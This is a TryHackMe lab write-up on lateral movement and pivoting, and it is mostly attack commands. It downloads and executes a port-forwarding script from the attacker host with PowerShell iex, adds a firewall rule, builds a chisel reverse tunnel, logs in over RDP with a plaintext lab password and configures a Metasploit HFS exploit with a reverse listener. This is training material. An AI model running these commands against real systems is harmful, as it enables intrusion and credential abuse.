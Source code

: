 ### Let's Get to Work!

Do port forwarding with `Invoke-PortFwd.ps1`

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ ln -s /opt/sectools/powershell/Empire/lateral_movement/Invoke-PortFwd.ps1
```

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.17.90/Invoke-PortFwd.ps1')
netsh advfirewall firewall add rule name="Open Port 13389" dir=in action=allow protocol=TCP localport=13389
Invoke-PortFwd 0.0.0.0 13389 10.200.19.201 3389
```

```bash
xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```

![](../../attachment/607b5ab06264858ea3401effa1bf0bb9.png)

> THM{SIGHT_BEYOND_SIGHT}

### Tunnelling Complex Exploits

```bash
C:\programdata\chisel.exe client 10.50.17.90:81 R:8888:thmdc.za.tryhackme.com:80 8081:127.0.0.1:8081 1111:127.0.0.1:1111
```

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
lhost => thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 1111
lport => 1111
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 8081
srvport => 8081
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
rport => 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > excploit
```